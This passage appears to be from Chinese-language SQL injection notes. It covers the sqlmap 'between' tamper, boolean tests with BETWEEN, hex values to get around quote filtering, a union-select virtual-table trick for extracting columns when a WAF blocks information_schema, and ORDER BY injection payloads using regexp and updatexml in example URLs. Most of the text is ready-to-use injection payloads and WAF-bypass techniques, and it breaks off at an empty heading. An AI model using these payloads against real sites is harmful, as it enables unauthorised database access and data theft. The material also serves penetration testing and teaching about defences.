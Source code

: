 在`sqlmap`中使用between and 代替其它字符加上 `--tamper=between` 即可

**判断条件真假**

```sql
2 > 1   #真
0 > 1   #假
#以下用between and 实现判断真假
2 between 1 and 3   #真
3 betwwen 1 and 2   #假
```

`between and`还支持16进制,所以可以用16进制,来绕过单引号的过滤

```sql
select database() between 0x61 and 0x7a;    //select database() between 'a' and 'z';
```

## 未知列名情况下的注入利用

`mysql`版本<5.0或在利用`SQL`注入的时候遇到了WAF；

安全狗3.5版本会直接拦截关键字`information_shema`；

从而无法获取数据表的列名，这时可以**利用虚表获取数据**。

```sql
-1 union select 1,(select `4` from (select 1,2,3,4,5,6 union select * from users)a limit 1,1);
--可以通过不停的修改列名1，2，3，4来提取数据( 改这个用反引号包裹的`4`)
```

[参考](https://nosec.org/home/detail/2245.html)

# Order-By注入

> order by 注入是`SQL`注入中很常见的，被过滤的概率小；
>
> 可被用户控制的数据在order by 子句后边，即order参数可控。

### 利用报错

#### 利用regexp

```sql
http://192.168.239.2:81/?order=(select+1+regexp+if(1=1,1,0x00)) 正常
http://192.168.239.2:81/?order=(select+1+regexp+if(1=2,1,0x00)) 错误
```

#### 利用updatexml

```sql
http://192.168.239.2:81/?order=updatexml(1,if(1=1,1,user()),1)  正确
http://192.168.239.2:81/?order=updatexml(1,if(1=2,1,user()),1)  错误
```

#### 利用extractvalue
